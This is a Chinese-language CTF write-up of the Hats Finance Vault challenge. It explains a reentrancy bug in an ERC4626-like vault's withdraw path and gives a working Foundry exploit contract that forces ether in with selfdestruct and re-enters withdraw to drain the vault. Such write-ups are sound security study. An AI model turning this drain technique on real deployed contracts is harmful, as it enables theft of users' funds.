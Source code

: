 ```yaml
---
title: "Hats Finance CTF 2 WriteUp"
date: 2022-10-12
subtitle:    ""
description: ""
author:      "Ashley Hsu"
image:       ""
tags:        ["CTF"]
categories:  ["Solidity", "CTF" ]
---
```

## Intro
前陣子參加了 hats finance 辦的 ctf，比賽形式是在幾天的時間內找到合約的漏洞並提交報告及exp，雖沒得獎還是紀錄一下。

[Vault Game Repo](https://github.com/hats-finance/vault-game/tree/16a86ab35603fe79382a124b88f8ef3273b5316b)

`Vault.sol` 為一 ERC4626-like 的 vault，任何人可以存 eth 並獲得 shares。

## The Challenge
最初會deposit 1 ether 到 vault 中。
```solidity
constructor() payable ERC20(“Vault Challenge Token”, “VCT”) {
    require(msg.value == 1 ether, “Must init the contract with 1 eth”);
    _deposit(msg.sender, address(this), msg.value);
}
```
通關目標為清空 valut 的 balance:
```solidity
function captureTheFlag(address newFlagHolder) external {
    require(address(this).balance == 0, “Balance is not 0”);
    flagHolder = newFlagHolder;
}
```
## Observation
先觀察一一下能轉出 ether 的地方，`ERC4626ETH.sol` 的 `_withdraw()`(line 148):
```solidity
uint256 excessETH = totalAssets() - totalSupply();
_burn(_owner, amount);
Address.sendValue(receiver, amount);
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
`withdraw()` 跟 `redeem()`都會進`_withdraw()`，而且沒有 reentrancy guard。

注意到`_withdraw()`中，有兩個 sendValue，第一個傳送 amount ether 給 receiver，第二個會傳送 excessETH 給 owner。而 excessETH 的值一開始就被暫存，因此在第一次的 ether transfer 重入 `withdraw()`，設定 `amount = 0`，這樣便不會影響到 excessETH，藉此可以得到額外的 excessETH，最終清空 vault。

要讓 `excessETH > 0`，需增加`totalAssets()`但不能動到`totalSupply()`，可以透過 selfdestruct 強制轉移 ether 到 vault 合約中。

## Exploit
1. 建立一個合約轉入 1 ether 並調用 selfdestruct，所以此時 vault 的 excessETH = 1 ether。
2. 調用 `withdraw()`，將 amount 設為 0。
3. 重入 `withdraw()`，excessETH = 1 ether 被轉給 owner，此時 vault balance = 1 ether。
4. 回到被劫持的 `withdraw()`，excessETH = 1 ether 再次被轉給 owner，vault balance = 0。

```solidity
pragma solidity ^0.8.0;
import "forge-std/Test.sol";
import "../src/Vault.sol";
contract Destruct {
    constructor() payable {}
    function destruct(address payable target) external payable {
        selfdestruct(target);
    }
}
contract VaultTest is Test {
    Vault vault;
    bool flag = true;
    function setUp() public {}
    function testExp() public {
        vm.deal(address(this), 2 ether);
        Destruct destruct = new Destruct{value: 1 ether}();
        vault = new Vault{value: 1 ether}();
        // send unexpected ether to vault
        destruct.destruct(payable(address(vault)));
        vault.withdraw(0 ether, address(this), address(this));
        console.log("vault balance", address(vault).balance);
        vault.captureTheFlag(address(this));
        console.log("vault.flagHolder", vault.flagHolder());
    }
    receive() external payable {
        if (flag) {
            flag = !flag;
            vault.withdraw(0, address(this), address(this));
        }
    }
}
```